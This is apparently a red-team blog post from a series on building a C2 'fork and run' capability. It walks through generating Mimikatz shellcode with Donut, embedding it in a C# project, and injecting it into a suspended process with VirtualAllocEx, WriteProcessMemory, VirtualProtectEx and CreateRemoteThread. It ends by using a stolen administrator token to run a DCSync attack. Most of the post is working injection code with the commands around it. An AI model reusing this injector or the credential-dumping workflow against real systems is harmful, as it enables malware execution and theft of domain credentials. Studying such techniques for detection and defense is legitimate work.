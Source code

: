 ```yaml
---
title: Fork and Run Implementation in C# - Shellcode Injection
author: Fropops
date: 2023-06-21 08:00:00 +0800
categories: [Developpement]
tags: [C#, C2, Red Team, Fork and Run, Injection, WinAPI, Command Execution]
---
```


# Introduction

In the previous articles, we saw how to use the Windows API to [create processes](/posts/Fork-and-Run-CSharp-Process-Creation/) for the current user or [with the rights of another user](/posts/Fork-and-Run-CSharp-User-impersonation-Token-Manipulation/). Now, we will leverage this knowledge to inject malicious code that we want to execute.

# Shellcode Preparation

The first step is to generate our "shellcode". There are many resources available online about understanding and generating shellcode, but it is beyond the scope of this post series. Therefore, we will simply use [Donut](https://github.com/TheWover/donut), a program that automatically generates the required shellcode to execute a chosen Windows program (for this example, we will use the famous tool, Mimikatz):

```shell
/opt/donut/donut -i /mnt/Share/Utils/win/programs/mimikatz64.exe -f 1 -a 2 -o /mnt/Share/tmp/Payload.bin -p 'coffee exit'
```

![Donut Shellcode Generation](/assets/img/posts/ForkAndRun/injection-donut.png)

Now, we need to incorporate this file containing the binary code into our application to be able to inject it. For this post, we will simply add it as a resource in our .NET project:


To do this, go to the properties of our project

![Ressource - Properties](/assets/img/posts/ForkAndRun/injection-ressource-properties.png)


Choose the "Resource" tab and click on the link "This project does not contain a default resource file. Click here to create one."

![Ressource - Creation](/assets/img/posts/ForkAndRun/injection-ressource-create.png)


Change the resource type to "File".

![Ressource - File](/assets/img/posts/ForkAndRun/injection-ressource-files.png)


Click on "Add resource" and select the file we just generated.

![Ressource - Payload](/assets/img/posts/ForkAndRun/injection-ressource-addpayload.png)


To access the content of this resource from our program, we can use the following line of code:
```c#
var shellcode = Properties.Resources.Payload;
```

# Shellcode Injection

Before injecting this code into the process we will create, there is one more change to make. In this case, we are creating a process that will serve as a shell to run our malicious program. So when we start the process, we don't want it to execute its own code. To achieve this, we will start the process in a suspended state. Therefore, we will insert the following line into the process creation properties:

```c#
creationFlags |= PROCESS_CREATION_FLAGS.CREATE_SUSPENDED;
```

There are different ways to inject shellcode, and there are numerous resources available on this topic. We will use one of the simplest and most well-known techniques. By using the functions VirtualAllocEx, WriteProcessMemory, and VirtualProtectEx, we will create a memory space in the created process that is large enough to hold our shellcode, copy the binary code into that space, and make the memory space executable.

We need to import these three functions:

```c#
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(
	IntPtr hProcess,
	IntPtr lpAddress,
	int dwSize,
	AllocationType flAllocationType,
	MemoryProtection flProtect);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtectEx(
	IntPtr hProcess,
	IntPtr lpAddress,
	int dwSize,
	MemoryProtection flNewProtect,
	out MemoryProtection lpflOldProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(
	IntPtr hProcess,
	IntPtr lpBaseAddress,
	byte[] lpBuffer,
	int nSize,
	out IntPtr lpNumberOfBytesWritten);
```

We also need to import the associated structures:

```c#
[Flags]
public enum AllocationType
{
	Commit = 0x1000,
	Reserve = 0x2000,
	Decommit = 0x4000,
	Release = 0x8000,
	Reset = 0x80000,
	Physical = 0x400000,
	TopDown = 0x100000,
	WriteWatch = 0x200000,
	LargePages = 0x20000000
}

[Flags]
public enum MemoryProtection
{
	Execute = 0x10,
	ExecuteRead = 0x20,
	ExecuteReadWrite = 0x40,
	ExecuteWriteCopy = 0x80,
	NoAccess = 0x01,
	ReadOnly = 0x02,
	ReadWrite = 0x04,
	WriteCopy = 0x08,
	GuardModifierflag = 0x100,
	NoCacheModifierflag = 0x200,
	WriteCombineModifierflag = 0x400
}
```

In our program, we use these functions to inject the code into the process:

```c#
var baseAddress = VirtualAllocEx(
   pInfo.hProcess,
   IntPtr.Zero,
   shellcode.Length,
   AllocationType.Commit |  AllocationType.Reserve,
   MemoryProtection.ReadWrite);

if (baseAddress == IntPtr.Zero)
	throw new InvalidOperationException($"Failed to allocate memory, error code: {Marshal.GetLastWin32Error()}");


IntPtr bytesWritten = IntPtr.Zero;
if (!WriteProcessMemory(pInfo.hProcess, baseAddress, shellcode, shellcode.Length, out bytesWritten))
	throw new InvalidOperationException($"Failed to write shellcode into the process, error code: {Marshal.GetLastWin32Error()}");

if (bytesWritten.ToInt32() != shellcode.Length)
	throw new InvalidOperationException($"Failed to write All the shellcode into the process");

if (!VirtualProtectEx(
	pInfo.hProcess,
	baseAddress,
	shellcode.Length,
	MemoryProtection.ExecuteRead,
	out _))
{
	throw new InvalidOperationException($"Failed to cahnge memory to execute, error code: {Marshal.GetLastWin32Error()}");
}
```

To execute the injected code, we can rely on the CreateRemoteThread function, which we need to import:

```c#
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr CreateRemoteThread(
	IntPtr hProcess,
	IntPtr lpThreadAttributes,
	uint dwStackSize,
	IntPtr lpStartAddress,
	IntPtr lpParameter,
	uint dwCreationFlags,
	out IntPtr lpThreadId);
```

Then, we can use it as follows:
```c#
IntPtr threadres = IntPtr.Zero;
IntPtr thread = CreateRemoteThread(pInfo.hProcess, IntPtr.Zero, 0, baseAddress, IntPtr.Zero, 0, out threadres);

if (thread == IntPtr.Zero)
	throw new InvalidOperationException($"Failed to create remote thread to start execution of the shellcode, error code: {Marshal.GetLastWin32Error()}");
```

And here's the result :

![Injection - Mimikatz](/assets/img/posts/ForkAndRun/injection-mimikatz.png)

# What does it look like in our C2?

Assembling all the pieces we have prepared so far in our C2, we are able to execute malicious tools (such as Mimikatz) using the privileges of other users.


Let's use our "Fork And Run" implementation to try a DCSync attack with the current user:
![Injection - C2 - DCSync As Current User](/assets/img/posts/ForkAndRun/injection-c2-norights.png)

As expected, we do not have sufficient privileges for this attack.

Now, let's use Token manipulation to borrow the rights of the administrator logged in to our machine:

![Injection - C2 - Steal Token](/assets/img/posts/ForkAndRun/injection-c2-steal.png)

Let's repeat the attack from this new context:

![Injection - C2 - DCSync](/assets/img/posts/ForkAndRun/injection-c2-dcsync.png)

# Final Thoughts

This article demonstrates how to use the Windows API to inject shellcode in a newly created process, and how it's leveraged to execute hacking tools.

You can find the complete source code of this article on [Github](https://github.com/Fropops/OffensiveWinAPI/blob/main/TestForBlog/Injection.cs)